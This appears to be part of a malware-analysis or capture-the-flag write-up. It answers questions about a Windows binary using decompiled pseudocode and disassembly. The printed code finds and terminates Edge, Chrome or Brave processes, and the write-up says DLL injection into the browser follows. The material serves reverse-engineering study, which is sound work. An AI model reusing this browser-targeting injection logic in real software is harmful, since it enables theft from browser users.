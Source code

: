```bash
                v30 = Toolhelp32Snapshot;
                if ( Toolhelp32Snapshot != (HANDLE)-1i64 )
                {
                  v238.dwSize = 568;
                  if ( Process32FirstW(Toolhelp32Snapshot, &v238) )
                  {
                    do
                    {
                      if ( !wcsicmp(v238.szExeFile, v28) )
                      {
                        v31 = OpenProcess(1u, 0, v238.th32ProcessID);
                        v32 = v31;
                        if ( v31 )
                        {
                          TerminateProcess(v31, 0);
                          CloseHandle(v32);
                        }
                      }
                    }
                    while ( Process32NextW(v30, &v238) );
                  }
                  CloseHandle(v30);
                }
                if ( !(unsigned int)((__int64 (__fastcall *)(const char *))sub_140002AEB)(v203) )
                  goto LABEL_68;
```
- it check for browser name, crea snapshot to find exactly process, load it then do dll injection by creating remotethread

**0x140002AEB**

## 7. What is the address of the start of the loop that checks if a process matches the target browser executable name in hex?
```bash
.text:000000014000755F loc_14000755F:                          ; CODE XREF: sub_140006F86+5F8↓j
.text:000000014000755F                 lea     rcx, [rsp+40h+pe.szExeFile] ; String1
.text:0000000140007567                 mov     rdx, rbp        ; String2
.text:000000014000756A                 call    r13 ; _wcsicmp
.text:000000014000756D                 test    eax, eax
.text:000000014000756F                 jz      short loc_14000758B
```
```bash
              while ( 1 )
              {
                v28 = L"msedge.exe";
                if ( strcmp(v203, "edge") )
                {
                  v28 = L"chrome.exe";
                  if ( !strcmp(v203, "brave") )
                    v28 = L"brave.exe";
                }
                Toolhelp32Snapshot = CreateToolhelp32Snapshot(2u, 0);
                v30 = Toolhelp32Snapshot;
                if ( Toolhelp32Snapshot != (HANDLE)-1i64 )
                {
                  v238.dwSize = 568;
                  if ( Process32FirstW(Toolhelp32Snapshot, &v238) )
                  {
                    do
                    {
                      if ( !wcsicmp(v238.szExeFile, v28) )
                      {
```